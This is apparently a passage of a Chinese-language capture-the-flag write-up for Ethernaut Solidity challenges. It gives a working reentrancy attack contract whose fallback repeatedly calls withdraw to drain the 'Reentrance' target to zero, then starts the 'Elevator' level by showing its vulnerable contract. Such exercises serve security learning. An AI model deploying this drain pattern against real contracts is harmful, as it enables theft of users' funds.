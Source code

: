 部署一个第三方合约

```js
pragma solidity ^0.6.0;

interface Reentrance {
  function donate(address _to) external payable ;
  function withdraw(uint _amount) external ;
}

contract Attack {
	Reentrance instance;
	constructor(address payable addr) public payable {
		instance = Reentrance(addr);
	}
	function call_donate() public payable {
		instance.donate.value(msg.value)(address(this));
	}
	function call_withdraw() public payable {
		instance.withdraw(0.001 ether);
	}
	fallback() external payable {
		instance.withdraw(0.001 ether);
	}
}
```

先call_donate()转0.001 ether，然后调用call_withdraw()，再次查看余额发现变为0

## Elevator

到达Building最高层，楼顶，也就是top=true

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
